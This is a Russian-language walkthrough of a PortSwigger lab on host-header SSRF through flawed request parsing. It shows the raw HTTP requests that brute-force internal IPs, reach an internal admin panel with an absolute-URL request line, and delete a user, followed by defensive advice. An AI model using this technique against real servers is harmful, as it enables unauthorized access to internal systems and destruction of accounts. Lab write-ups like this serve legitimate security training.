


#### SSRF via flawed request parsing
лаба https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

зашибись перевод: "практикующий врач!!!"




задание: попасть в админку и удалить карлоса
админка вот здесь где-то в диапазоне
192.168.0.0/24

---------

вот просто запрос на гл стр
```http
GET / HTTP/2
Host: 0ac800a1040612578191d4cd00e300bd.web-security-academy.net
Cookie: session=kL1QLAeMMpEGtliMV8LYG033DaZEEDLK; _lab=46%7cMCwCFHwA23Hjt%2f0SXcEDTocXN4gkZ6UoAhQaRTkijk3cgc3J7XR%2fAo17CAeGpQdIDspgFISaJfKCKh6d6YsnBsqGAh%2bFEqg2FKHJP%2fma90Vw7H6SHQ7N%2bkay6DzC3TmW9X9HJjSSxBdT6MdsVN2p4QsjnksisVZCYeAbsN07%2b%2f8aKis%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac800a1040612578191d4cd00e300bd.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

так как колоборатор мне не доступен от бурп, а сторонние сервисы отключены, то я не могу пробовать делать запрос к своему серверу

------------

но  я могу бутфорсить заголовки в заданном диапазоне
192.168.0.0/24

-------

вот так - блокирует
```http
GET / HTTP/1.1
Host: 0ac800a1040612578191d4cd00e300bd.web-security-academy.net
Host:  192.168.0.0

ответ 400
"error":"Duplicate header names are not allowed"
```

-----

попробую сразу, а почему нет , лаба же
```http
X-Forwarded-Host  
X-Host  
X-Forwarded-Server  
X-HTTP-Host-Override  
Forwarded
```

```http
GET / HTTP/2
Host: 0ac800a1040612578191d4cd00e300bd.web-security-academy.net
X-Forwarded-Host: 192.168.0.%s
X-Host: 192.168.0.%s
X-Forwarded-Server: 192.168.0.%s
X-Http-Host-Override: 192.168.0.%s
Forwarded: 192.168.0.%s
...
..
```
нет успеха

короче, вот так тупо все перебирать - нет успеха
```http
GET / HTTP/2
Host: 0ac800a1040612578191d4cd00e300bd.web-security-academy.net
X-Forwarded-Host: 192.168.0.%s
```

вот так перебрать - тоже неудача
```http
GET / HTTP/2
Host: 192.168.0.%s
Cookie: se
```

-------




запрос дал ответ 302!!!

```http
GET https://0ac800a1040612578191d4cd00e300bd.web-security-academy.net HTTP/1.1
Host: 192.168.0.114


--------

ответ
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

делаю запрос 
```http
GET https://0ac800a1040612578191d4cd00e300bd.web-security-academy.net/admin HTTP/2
Host: 192.168.0.114
```
и попадаю в админку!!!

и там есть форма - для делита юзеров
```html
                   <header class="notification-header">
                    </header>
                    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="VqwTbEvtjim0KNYrns1jzyKj9PzkYqqj">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
                    </form>
                </div>
```

формирую запрос
```http
GET https://0ac800a1040612578191d4cd00e300bd.web-security-academy.net/admin/delete?csrf=VqwTbEvtjim0KNYrns1jzyKj9PzkYqqj&username=carlos HTTP/2
Host: 192.168.0.114


Cookie: session=kL1QLAeMMpEGtliMV8LYG033DaZEEDLK; _lab=46%7cMCwCFHwA23Hjt%2f0SXcEDTocXN4gkZ6UoAhQaRTkijk3cgc3J7XR%2fAo17CAeGpQdIDspgFISaJfKCKh6d6YsnBsqGAh%2bFEqg2FKHJP%2fma90Vw7H6SHQ7N%2bkay6DzC3TmW9X9HJjSSxBdT6MdsVN2p4QsjnksisVZCYeAbsN07%2b%2f8aKis%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac800a1040612578191d4cd00e300bd.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

овтет 302 ! лаба решена, карлос удален!

-----

#### Суть 

сервер валидирует Host header и блокирует подмену, но если отправить абсолютный URL в строке запроса (да - так тоже бывает), валидация смещается на этот URL, а Host header перестает проверяться

#### атака

1. отправил запрос с абсолютным URL https://домен-лабы/
    
2. в Host header подставлен внутренний IP из диапазона 192.168.0.0/24
    
3. найден IP 192.168.0.114, вернувший редирект на /admin
    
4. доступ к админке через абсолютный URL + /admin, админка не запаролена, Епта
    
5. удаление пользователя через POST с CSRF-токеном
   

#### защита

1. Единый источник маршрутизации. Не использовать одновременно Host header и абсолютный URL для принятия решений о маршрутизации
    
2. Нормализация запросов. Приводить все запросы к единому формату, отбрасывая абсолютные URL или преобразуя их в относительные
    
3. Белый список. Разрешать прокси маршрутизацию только на заранее известные внутренние домены, а не на любые IP из Host header или абсолютного URL
    
4. Валидация на всех уровнях. Не полагаться только на проверку Host header. Валидировать и абсолютные URL в строке запроса
    
5. Согласованность компонентов. Обеспечить, чтобы front-end и back-end одинаково интерпретировали запрос и использовали один источник данных для определения целевого хоста
	
6. Админка - должна быть запаролена